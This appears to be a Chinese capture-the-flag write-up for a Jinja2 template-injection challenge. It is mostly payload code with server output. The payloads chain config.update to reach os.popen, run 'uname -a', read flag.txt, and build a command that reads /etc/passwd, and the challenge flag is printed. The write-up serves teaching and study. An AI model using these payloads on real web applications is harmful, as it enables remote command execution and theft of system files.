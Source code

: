 
看到了熟悉的模板渲染（语段来自于[u/masterhacker_bot](https://www.reddit.com/user/masterhacker_bot/)），只会渲染特定的位置，而且有个特殊的`{adjective}.{person}`

存在5个可以ssti的地方，但是限制每一个框字符数必须在21个之内；其中还有两个非常特殊的`{adjective}.{person}`连了起来，我们可以用这个`.`点号连接我们payload的长度

这样相当于有4个可以构造的地方，前两个用来将长长的payload用短的变量及逆行替换，第三个是payload本体，第三和第四个位置均是回显位；首先通过`config.update`方法不断地向后取值来拿到可以用的函数并将其存储在`config.a`中，之后调用它来rce

```
{%set x=config%}
{%set y=x.update%}
{{y(a=x
__class__.__init__)}}
{{config.a}}
```

回显`<function Config.__init__ at 0x7fd75dae31e0>`，现在我们设法调用函数来执行命令

```
{{y(a=x.a
__globals__['os'])}}
```

回显`<module 'os' from '/usr/local/lib/python3.6/os.py'>`

```
{{y(a=x.a
popen)}}
```

回显`<function popen at 0x7fd75ed5a730>`，此时我们的`config.a`就是`os.popen()`，现在来调用它来执行命令

```
{%set x=config%}
{%set y=x.a%}
{{y('uname -a')
read()}}
{{config.a}}
```

回显`Linux madlib-digitaloverdose:madlib-46bf3bc4 3.10.0-1160.el7.x86_64 #1 SMP Mon Oct 19 16:18:59 UTC 2020 x86_64 GNU/Linux`，成功执行了命令，接下来就很简单了，读一波flag

```
{{y('cat flag.txt')
read()}}
```

`DO{an0th3r_ssti_ch4ll3nge_l0l593deff6}`

————很幸运的是最后我们的payload正好小于21个字符，显然我们被长度限制了发挥，但是这里还有别的trick

Jinja不仅支持模板内部的变量赋值还支持`~`进行字符串的连接，再利用上`config.command`甚至能读出/etc/passwd

```
{%set x=config%}
{%set y=x.update%}
{%set p='cat /etc'%}
{%set q=p~'/passw'%}
{{y(b=q~'d')}}
```
